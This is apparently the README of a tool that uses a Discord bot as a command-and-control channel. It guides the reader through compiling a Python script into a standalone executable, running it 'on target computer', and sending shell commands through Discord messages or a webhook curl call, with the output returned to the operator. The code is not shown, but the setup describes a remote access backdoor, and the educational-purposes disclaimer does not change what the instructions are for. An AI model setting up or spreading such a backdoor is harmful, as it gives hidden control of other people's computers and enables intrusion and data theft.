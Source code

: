 # Requirements
Python3
Discord
Discord BOT
Discord Webhook (optional, only if you don't want to interact directly with the server)

### Python Libs (you can install manually, or just run 'pip install -r requirements.txt'
discord.py (pip install discord)
pyinstaller (pip install pyinstaller)

# Guide
### Discord Bot
First, go to the discord developer application portal (https://discord.com/developers/applications) and create a new application.

In your apllication, go to "Bot" section, and click "Reset Token" button (you will use this token in the code). Select the "Message Content Intent" option.

Go to OAuth2 section, in "OAuth2 URL Generator" select "bot" option, and give the permissions "View Channels", "Send Messages", "Read Message History". Instead, if possible, you can just give the "Administrator" permission.
Copy the generated URL, paste in your browser, and add the bot to your server.

### Installation
Copy the Bot Token, and paste in the code.

Add the discord name of the users that will send the commands.

Compile to executable using pyinstaller: 
```
pyinstaller --onefile /path/to/main.py
```
The binary will be generated inside the "dist" folder. 

Now just execute the file on target computer, and send the commands on any text-channel of the discord server. 

The bot will read the message, and if the message owner is present on the list, it will execute the code and return the output.


### Webhook (Optional)

You also can use webhooks to send the commands, that way you won't interact directly with the server.

Go to Discord Server Settings > Integrations > Webhooks

Click "New Webhook", give it a name, select which channel the webhook will send the messages for you, and copy the webhook URL.

Now, you can use this command to send the commands with the webhook:
```
curl WEBHOOK_URL -H "Content-Type: application/json" --data "{\"content\": \"whoami\"}"
```



## Disclaimer: This project is for educational purposes only, I do not take responsibility for what you will do
